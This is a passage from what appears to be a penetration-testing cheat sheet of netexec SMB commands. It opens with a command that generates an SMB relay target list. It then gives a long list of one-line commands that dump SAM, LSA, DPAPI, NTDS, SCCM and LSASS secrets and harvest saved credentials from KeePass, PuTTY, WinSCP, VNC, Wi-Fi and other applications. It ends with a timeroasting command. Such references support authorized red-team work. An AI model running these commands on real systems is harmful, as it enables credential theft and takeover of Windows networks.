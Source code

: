 ```console
$ netexec smb <SUBNET> --gen-relay-list <FILE>
```

#### Credentials Dumping

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --sam
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --lsa
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --dpapi
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --dpapi cookies
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --dpapi nosystem
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --local-auth --dpapi nosystem
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --ntds
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --sccm
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --sccm disk
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --sccm wmi
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M eventlog_creds
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M gpp_autologin
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M gpp_password
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M lsassy
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M nanodump
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M ntdsutil
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M ntdsutil
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M backup_operator
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M wam
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M wam --mkfile masterkeys.txt
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M wam --pvk domain_backup_key.pvk
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M wifi
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M keepass_discover
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M keepass_trigger -o KEEPASS_CONFIG_PATH="<PATH>"
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M veeam
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M winscp
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M putty
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M vnc
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M mremoteng
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M notepad
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M notepad++
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M rdcman
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M teams_localdb
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M security-questions
```

#### Timeroasting

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M timeroast
```

#### User Handling

##### Change User Password

